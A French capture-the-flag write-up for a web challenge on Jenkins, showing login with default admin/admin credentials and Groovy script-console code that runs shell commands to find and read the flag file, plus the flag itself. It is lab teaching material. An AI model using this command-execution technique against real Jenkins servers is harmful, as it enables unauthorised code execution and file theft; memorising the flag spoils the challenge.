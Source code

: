 * * *
# Jenkins
> (Web, 400 points )
---
## Challenge :
> http://51.91.120.156:8085

Une fois qu'on accède au lien du challenge, on aperçoit l'application **java Jenkins**. **Jenkins est un outil open source d'intégration continue** qui fonctionne dans un conteneur de servlets tel qu’Apache Tomcat, ou en mode autonome avec son propre serveur Web embarqué. L'objectif de ce challenge à d'arriver à **exploiter les vulnérabilités de cette application**, pour retrouver le ```flag```. Les recherches qu'on aura à effectuer vont donc se restreindre à des **vulnérabilités d'exécution de commande système** sur le serveur hébergeant l'application **Jenkins**. Après quelques recherches nous retrouvons cet article https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/, qui détaille de long en large les différentes méthodes pouvant être utilisé pour mener à bien une **injection de commande système** sur une application **Jenkins**. Avant tout, connectons-nous sur l'application avec les ```credentials``` : ```admin``` pour **username** et ```admin``` pour **password**. Après ceci, passons à l'exploitation. Pour commencer : 

1. Chargeons cette adresse url http://51.91.120.156:8085/script
<img src="Images/jenkins-1.png">

2. Pour tester une injection de comande, écrivons ce bout de code dans le champ de texte :
```
def cmd = "ls -l".execute();
println("${cmd.text}");
```

On constate que l'injection marche à merveille. En se mettant à la recherche du ```flag```, on fini par retrouver le répertoire dans lequel il se trouve.
```
def cmd = "find . -name flag.txt".execute();
println("${cmd.text}");
```
> ./var/jenkins_home/flag.txt

```
def cmd = "cat /var/jenkins_home/flag.txt".execute();
println("${cmd.text}");
```


```Flag ```: **CTF_ThatWasUnbreakableIThought**
